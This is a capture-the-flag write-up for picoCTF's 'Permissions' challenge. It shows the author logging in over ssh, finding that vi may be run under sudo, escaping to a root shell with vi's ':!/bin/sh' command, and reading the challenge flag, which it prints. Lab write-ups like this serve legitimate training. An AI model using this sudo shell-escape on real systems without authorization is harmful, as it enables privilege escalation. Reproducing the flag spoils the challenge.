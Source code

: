 # Permissions

* Author: Geoffrey Njogu
* Location: https://play.picoctf.org/events/72/challenges/challenge/363
* Tags: General Skills, vim

## Problem

> Can you read files in the root file? Additional details will be available after launching your challenge instance.

This challenge also comes with the hint "What permissions do you have?"

## Solution

I started by launching an instance of the challenge (Figure 1). I then proceeded to log into the system via ``ssh``, as shown below:

```
lambdacalculus-picoctf@webshell:~$ ssh -p 52131 picoplayer@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]' can't be established.
ED25519 key fingerprint is SHA256:Km7la74G7/fztU37KiXuMDlWhxowKKAxA3TjvWy1Y0o.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]' (ED25519) to the list of known hosts.
picoplayer@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.15.0-1031-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

picoplayer@challenge:~$ 
```

Given the tag of "vim", the hint and the challenge name of "Permissions", I figured that I would be exploiting a GTFO bin to get root privileges. I queried the GTFOBin entry on ``vim`` [1] and first wanted to see if I could run it via ``sudo``:

```
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$ 
```

It seems that I can. So, I used the following command to get root:

```
picoplayer@challenge:~$ sudo vim -c ':!/bin/sh'
Sorry, user picoplayer is not allowed to execute '/usr/bin/vim -c :!/bin/sh' as root on challenge.
picoplayer@challenge:~$ sudo /usr/bin/vi -c ':!/bin/sh'

# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

I then searched for a potential flag:

```
# ls -l /root
total 0
# ls -la /root
total 12
drwx------ 1 root root   23 Mar 16 02:29 .
drwxr-xr-x 1 root root   51 Mar 16 19:37 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Mar 16 02:29 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
# cat /root/.flag.txt
picoCTF{uS1ng_v1m_3dit0r_55878b51}
# 
```

Excellent.

## References

1. https://gtfobins.github.io/gtfobins/vim/
